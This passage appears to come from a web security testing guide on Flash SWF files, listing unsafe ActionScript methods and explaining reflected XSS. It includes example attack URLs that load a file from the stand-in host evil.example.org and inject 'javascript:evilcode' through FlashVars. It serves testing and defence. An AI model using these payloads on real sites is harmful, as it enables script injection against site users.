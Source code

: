 The above code could be attacked by requesting:

`http://victim/file.swf?language=http://evil.example.org/malicious.xml?`

### Unsafe Methods

When an entry point is identified, the data it represents could be used by unsafe methods. If the data is not filtered or validated, it could lead to some vulnerabilities.

Unsafe Methods since version r47 are:

- `loadVariables()`
- `loadMovie()`
- `getURL()`
- `loadMovie()`
- `loadMovieNum()`
- `FScrollPane.loadScrollContent()`
- `LoadVars.load`
- `LoadVars.send`
- `XML.load( 'url' )`
- `LoadVars.load( 'url' )`
- `Sound.loadSound( 'url' , isStreaming );`
- `NetStream.play( 'url' );`
- `flash.external.ExternalInterface.call(_root.callback)`
- `htmlText`

### Exploitation by Reflected XSS

The swf file should be hosted on the victim's host, and the techniques of reflected XSS must be used. An attacker forces the browser to load a pure swf file directly in the location bar (by redirection or social engineering) or by loading it through an iframe from an evil page:

```html
<iframe src='http://victim/path/to/file.swf'></iframe>
```

In this situation, the browser will self-generate an HTML page as if it were hosted by the victim host.

### GetURL (AS2) / NavigateToURL (AS3)

The GetURL function in ActionScript 2.0 and NavigateToURL in ActionScript 3.0 lets the movie load a URI into the browser's window. If an undefined variable is used as the first argument for getURL:

`getURL(_root.URI,'_targetFrame');`

Or if a FlashVar is used as the parameter that is passed to a navigateToURL function:

```actionscript
var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
navigateToURL(request);
```

Then this will mean it's possible to call JavaScript in the same domain where the movie is hosted by requesting:

`http://victim/file.swf?URI=javascript:evilcode`

